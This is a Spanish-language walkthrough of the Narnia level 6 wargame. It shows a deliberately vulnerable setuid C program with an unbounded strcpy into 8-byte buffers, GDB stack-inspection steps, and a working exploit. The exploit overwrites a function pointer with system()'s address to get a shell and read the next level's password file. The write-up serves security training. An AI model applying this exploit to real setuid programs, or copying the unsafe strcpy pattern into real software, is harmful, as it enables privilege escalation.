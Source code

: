 ~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);

	setreuid(geteuid(),geteuid());
    fp(b1);

	exit(1);
}
~~~
ejecutamos GDB y colocamos un punto de interrupción en fp(b1) y analizamos la pila
~~~
gdb narnia6
set disassembly-flavor intel
disas main
break *main+319
run AAAA BBBB
x/16wx $esp
x/x $eax
~~~
Aquí podemos ver nuestros argumentos AAAA
~~~
run AAAAAAAACCCC BBBB
x/16wx $esp
x/x $eax
p system
run $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
x/16wx $esp
continue
~~~
slimos de GDB
~~~
./narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
whoami
cat /etc/narnia_pass/narnia7

~~~